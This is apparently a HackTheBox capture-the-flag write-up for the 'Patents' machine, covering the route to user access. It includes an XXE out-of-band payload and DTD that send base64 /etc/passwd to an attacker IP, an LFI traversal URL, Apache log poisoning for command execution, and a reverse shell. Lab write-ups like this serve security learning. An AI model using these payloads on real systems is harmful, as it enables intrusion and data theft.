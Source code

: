 # HackTheBox | Patents [User]

[](images/status-card.png)

## Enumeration

We begin with an nmap scan. We find open TCP ports: 22, 80, 8888

```
# Nmap 7.80 scan initiated Fri May 15 20:51:44 2020 as: nmap -sV -sC -oA nmap/patents 10.10.10.173
Nmap scan report for 10.10.10.173
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:b6:84:a7:a7:f3:c2:4f:38:db:fc:2a:dd:26:4e:67 (RSA)
|   256 b1:cd:18:c7:1d:df:57:c1:d2:61:31:89:9e:11:f5:65 (ECDSA)
|_  256 73:37:88:6a:2e:b8:01:4e:65:f7:f8:5e:47:f6:10:c4 (ED25519)
80/tcp   open  http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: MEOW Inc. - Patents Management
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   Help, LPDString, LSCP: 
|_    LFM 400 BAD REQUEST
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8888-TCP:V=7.80%I=7%D=5/15%Time=5EBF473F%P=x86_64-pc-linux-gnu%r(LS
SF:CP,17,"LFM\x20400\x20BAD\x20REQUEST\r\n\r\n")%r(Help,17,"LFM\x20400\x20
SF:BAD\x20REQUEST\r\n\r\n")%r(LPDString,17,"LFM\x20400\x20BAD\x20REQUEST\r
SF:\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 15 20:53:25 2020 -- 1 IP address (1 host up) scanned in 100.41 seconds
```

We take a look at the webpage and find that we can upload Docx files that are converted to PDFs for us to download.

We upload a sample Docx file created with python and we are able to download the converted pdf.

```python
#!/usr/bin/python3 

from docx import Document

document = Document()

document.add_heading('Document Title', 0)

p = document.add_paragraph('this is some text')

document.save('valid.docx')
```

Once we upload the document we are able to download the pdf.

[](images/download-patent.png)

We can see the downloaded pdf contents exist as a file on the server.

[](images/converted-pdf.png)

We attempt XXE but are unsuccessful.

Our initial gobuster shows several directories:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/15 21:41:53 Starting gobuster
===============================================================
/index (Status: 200)
/profile (Status: 200)
/uploads (Status: 301)
/static (Status: 301)
/upload (Status: 200)
/release (Status: 301)
/vendor (Status: 301)
/patents (Status: 301)
/output (Status: 301)
Progress: 27859 / 220561 (12.63%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/05/15 21:47:56 Finished
===============================================================

```

Further enumeration reveals a changelog left by a developer in /releases.

We use ffuf with raft-large-files.txt to find the changelog left on the server with the name UpdateDetails.

```
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -u http://10.10.10.173/release/FUZZ -t 100 -mc 200
```

[](images/fuff-changelog.png)

UpdateDetails:
```
v1.2 alpha:
- meow@conquertheworld: Added ability to include patents. Still experimental, it's hidden.
v1.1 release:
- gbyolo@htb: Removed "meow fixes", they weren't real fixes. 
v1.0 release:
- meow@conquertheworld: Fixed the following vulnerabilities:
        1. Directory traversal
        2. Local file inclusion (parameter)
v0.9 alpha:
- meow@conquertheworld.htb: Minor fixes, fixed 2 vulnerabilities. The Docx2Pdf App is ready.
v0.7 alpha:
- gbyolo@tb: fixed conversion parameters. Meow's changes for custom folder should now work.
v0.7 alpja:
- meow@conquertheworld.htb: enabled entity parsing in custom folder
- gbyolo@htb: added conversion of all files, to generate pdf compliant from docx
v0.6 alpha:
- gbyolo@htb: enabled docx conversion to pdf. Seems to work!
```


This changelog tells us two things:
 - There is a potential vulnerability via LFI that was left unpatched
 - We have to exploit via parameter in the *custom* directory

## Initial Foothold

Taking a look at the structure of the Docx file we can see there is a cusomXML directory.

[](images/docx-structure.png)

We find a potential exploit on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

[](xxe-oob-dtd.png)

We inject the code into our ``` customXml/item1.xml ``` file:

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.31/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
<b:Sources xmlns:b="http://schemas.openxmlformats.org/officeDocument/2006/bibliography" xmlns="http://schemas.openxmlformats.org/officeDocument/2006/bibliography" SelectedStyle="/APA.XSL" StyleName="APA"/>
```

Now we set up our local file that will be called ```dtd.xml```
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.31/dtd.xml?%data;'>">
```

We set up a python server and upload and convert our exploit. We get the contents of /etc/passwd encoded in base64.

[](images/etc-passwd-base64.png)

We decode this and our response was valid. We can read information on the system!

[](images/etc-passwd.png)


We continue hunting for files and we are able to exfiltrate the config.php file at ```/var/www/html/docx2pdf/config.php```

```php
<?php
# needed by convert.php
$uploadir = 'letsgo/';

# needed by getPatent.php
# gbyolo: I moved getPatent.php to getPatent_alphav1.0.php because it's vulnerable
define('PATENTS_DIR', '/patents/');
?>
```

This points us to a new file. Upon browsing to the file, we can see that there is an **id** parameter.

[](images/alphav1.png)

We can exploit this again via LFI using a nested path traversal string:

```http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//etc/passwd```

[](images/lfi-etc-passwd.png)

We see that we can read the apache log file

[](images/apache-log-file.png)

We can poison this with netcat by injecting php code into the log, that is executed when we pass the parameter and command into the url.

[](images/netcat-poison.png)

Now we can browse to
```
http://10.10.10.173/getPatent_alpha1.0.php?c=whoami&id=....//....//....//....//var/log/apache2/access.log
```
to see the execute of ```whoami``` in the log.

[](images/php-whoami.png)

We can use this to get a reverse shell.

[](images/initial-foothold.png)


## Pivoting to User

Now that we are on the box, we need to escalate to root of the container.

Using pspy, we are able to see the ouput of a script that runs that contains the root password of the docker container that we are in.

[](images/pspy.png)

We use this password (removing the escape slashes in front of $) with
```
su root
```

And we have User!

[](images/user.png)
